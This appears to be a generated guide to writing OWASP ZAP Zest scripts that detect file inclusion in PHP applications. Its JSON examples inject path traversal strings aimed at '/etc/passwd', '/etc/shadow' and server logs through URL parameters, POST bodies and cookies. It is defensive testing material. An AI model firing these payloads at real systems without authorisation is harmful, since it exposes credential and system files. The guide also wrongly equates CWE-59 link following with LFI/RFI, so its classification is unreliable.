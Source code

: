 # Improper Link Resolution Before File Access ('Link Following') (CWE-059) in PHP

###### Understanding Improper Link Resolution Before File Access ('Link Following') in PHP Web Applications

**Improper Link Resolution Before File Access ('Link Following')** is a vulnerability that arises when a web application improperly resolves file paths before accessing them. This can lead to various security risks such as Local File Inclusion (LFI) or Remote File Inclusion (RFI) attacks.

In PHP applications, this vulnerability often manifests when user inputs are directly used in file path constructions without proper validation or filtering. Common injection points include URL parameters, HTTP request bodies, HTTP headers, cookies, and query strings.

**Common Variations:**
1. **Local File Inclusion (LFI):** An attacker includes files from the local filesystem.
2. **Remote File Inclusion (RFI):** An attacker includes files from a remote server.

### Designing ZAP Zest Scripts to Detect Link Following Vulnerabilities

#### Components of Zest Scripts

**Actions:**
1. **ZestRequest:** To simulate the attack by crafting HTTP requests.
2. **ZestAction:** Used to perform additional operations based on the responses (e.g., logging failures).

**Assertions:**
1. **ZestAssertion:** To validate conditions like status codes and response contents.
2. **ZestExpression:** Logical expressions to fine-tune the control flow.

**Typical HTTP Response Indicators:**
1. **HTTP Status Codes:** 200 for successful file inclusion, 500 for server errors, 403 for forbidden access.
2. **Response Content:** Presence of keywords like "root:" or "<?php" indicating inclusion of sensitive files.

### Example Zest Script: Detecting LFI via URL Parameter

```json
{
  "about": "LFI detection script for PHP applications",
  "zestVersion": "0.8",
  "title": "LFI Detection via URL Parameter",
  "description": "This script detects Local File Inclusion (LFI) vulnerabilities by injecting common file paths into URL parameters.",
  "statements": [
    {
      "url": "http://{{target}}/vulnerable.php?file=../../../../etc/passwd",
      "method": "GET",
      "response": { "statusCode": 200 },
      "assertions": [
        {
          "rootExpression": {
            "regex": "root:.*:0:0:.*",
            "location": "BODY",
            "elementType": "ZestExpressionRegex"
          },
          "elementType": "ZestAssertion"
        }
      ],
      "elementType": "ZestRequest"
    },
    {
      "index": 2,
      "message": "Potential LFI vulnerability detected!",
      "elementType": "ZestActionFail"
    }
  ],
  "elementType": "ZestScript"
}
```

### Explanation:

1. **ZestRequest:**
   - **URL:** Attempts to include the `/etc/passwd` file through a vulnerable parameter.
   - **Method:** GET
   - **Assertions:** Checks if the response body contains the string "root:" which indicates a successful inclusion of Unix password file.

2. **ZestActionFail:**
   - **Message:** Outputs a failure message if the assertion passes, meaning a potential LFI vulnerability is detected.

### Script Variations for Different Injection Points

#### URL Parameter

For URL parameters, repeat the above script with different common injection strings:
```json
"file=../../../../etc/shadow"
"file=../../../../var/log/apache2/access.log"
```

#### HTTP Request Body

```json
{
  "url": "http://{{target}}/vulnerable.php",
  "method": "POST",
  "data": "file=../../../../etc/passwd",
  "headers": "Content-Type: application/x-www-form-urlencoded",
  "response": { "statusCode": 200 },
  "assertions": [
    {
      "rootExpression": {
        "regex": "root:.*:0:0:.*",
        "location": "BODY",
        "elementType": "ZestExpressionRegex"
      },
      "elementType": "ZestAssertion"
    }
  ],
  "elementType": "ZestRequest"
}
```

#### Cookie

```json
{
  "url": "http://{{target}}/vulnerable.php",
  "method": "GET",
  "headers": "Cookie: file=../../../../etc/passwd",
  "response": { "statusCode": 200 },
  "assertions": [
    {
      "rootExpression": {
        "regex": "root:.*:0:0:.*",
        "location": "BODY",
        "elementType": "ZestExpressionRegex"
      },
      "elementType": "ZestAssertion"
    }
  ],
  "elementType": "ZestRequest"
}
```

### Conclusion

By carefully constructing Zest scripts to test different injection points and response indicators, you can effectively detect Improper Link Resolution vulnerabilities with minimal false positives and negatives. Ensure that each script validates multiple scenarios and response conditions to cover the broad range of potential exploits.

### References

- Zest Scripting Documentation【4:0†source】【4:1†source】【4:2†source】【4:3†source】【4:5†source】
- OWASP Testing Guide     .